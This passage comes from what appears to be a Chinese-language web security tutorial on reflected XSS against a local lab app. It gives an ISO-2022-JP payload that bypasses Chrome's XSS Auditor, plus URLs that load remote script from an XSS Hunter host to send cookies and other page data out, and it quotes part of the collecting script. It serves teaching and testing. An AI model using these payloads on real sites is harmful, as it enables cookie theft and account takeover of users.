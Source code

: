 ![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F3bc52a6b-1b0b-406e-a49d-ace574a1c064%2F96031383-767C-4BA6-A8BD-0AFEF89203FC.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F3bc52a6b-1b0b-406e-a49d-ace574a1c064%2F96031383-767C-4BA6-A8BD-0AFEF89203FC.png)

这里直接给一段参考GitHub上大佬的文章[Browser’s XSS Filter Bypass Cheat Sheet](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet)中的payload。
`<meta%20charset=iso-2022-jp><svg%20o%1B(Bnload=alert(1)>`
访问`http://127.0.0.1:5000/sec/xss/reflect?id=%3Cmeta%20charset=iso-2022-jp%3E%3Csvg%20o%1B(Bnload=alert(1)%3E`。

![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fa1f048bb-81e1-4238-b9cf-e86a55a5492e%2F443BE8AA-623B-43EC-9068-3C17A6AC3150.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fa1f048bb-81e1-4238-b9cf-e86a55a5492e%2F443BE8AA-623B-43EC-9068-3C17A6AC3150.png)

可以看到触发弹窗了，绕过了Chrome的XSS_AUDITOR，导致该绕过的原因是在因为在ISO-2022-JP编码格式下的HTML会忽略`[0x1B](B`字符。把这段字符插入到payload中间，从而导致XSS_AUDITOR没有把这段payload作为可执行的恶意代码。所以编码的差异也是导致漏洞发生的原因。

当然只是弹一个窗是没什么卵用，至少能获取一下别人的cookie吧。这里推荐一款XSS接收平台[XSSHunter](https://xsshunter.com/)。接下来会剖析这款XSS平台是如何接收目标域数据的。
这段是XssHunter中最常用的payload。
`"><script src=https://your.xss.ht></script>`，
这里把之前那段URL修改一下。在src中插入ISO-2022-JP编码格式的`[0x1B](B`字符来绕过XSS_AUDITOR。
`http://127.0.0.1:5000/sec/xss/reflect?id=%3Cmeta%20charset=iso-2022-jp%3E%3Cscript%20s%1B(Brc=https://wm.xss.ht%3E%3C/script%3E`
请求URL，也就是当目标用户打开这段URL的话，就中招了，目标域加载远程JS，并将当前域下的document对象下的cookie等属性发送给接收网址`https://your.xss.ht`，效果如下。可以看到，获取了截图，URL，IP，COOKIE，UA等数据。

![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F9e37d416-c20e-416e-ae0f-3d2ad6fd5312%2F43972D4F-E7A6-4190-BD8D-FBC69F4DECD0.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F9e37d416-c20e-416e-ae0f-3d2ad6fd5312%2F43972D4F-E7A6-4190-BD8D-FBC69F4DECD0.png)

好吧，前面说过，浏览器有同源策略的，`http://127.0.0.1:5000/` 跟`https://your.xss.ht`很明显并不是同域，那么又是如何跨域发送数据的呢。下面我会讲解一下xssHunter中的JS代码。理解下其中的跨域机制，填一下前面的坑。

XssHunter的JS很简单，看一下具体的流程。
它的流程图如下：

![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F71755962-65fb-41b3-aa8a-78ee258192b2%2FAE3C91EF-7A8F-43D3-B27D-9411B51B95D5.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F71755962-65fb-41b3-aa8a-78ee258192b2%2FAE3C91EF-7A8F-43D3-B27D-9411B51B95D5.png)

我们测试一下，首先在自己页面上加载远程JS`<script src=https://your.xss.ht></script>`，也可以吧直接把`https://your.xss.ht`上的JS脚本dump下来，本地包含，这样加载比较快，为了方便，我把它dump下来本地调试下。

    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <script src="./xsshunter.js"></script> <!--本地的XssHunter JS-->
        <title>Title</title>
    </head>
    <body>
    </body>
    </html>

首先JS会将dom对象的cookie属性和bom中的location的orgin属性，navigator的userAgent属性等存放到probe_return_data对象中。

    probe_return_data = {};
    
    // Prevent failure incase the browser refuses to give us any of the probe data.
    try {
        probe_return_data['cookies'] = never_null( document.cookie );
    } catch ( e ) {
        probe_return_data['cookies'] = '';
    }
    try {
        probe_return_data['user-agent'] = never_null( navigator.userAgent );
    } catch ( e ) {
        probe_return_data['user-agent'] = '';
    }
    //省略一堆
    try {
        probe_return_data['origin'] = never_null( location.origin );
    } catch ( e ) {
        probe_return_data['origin'] = '';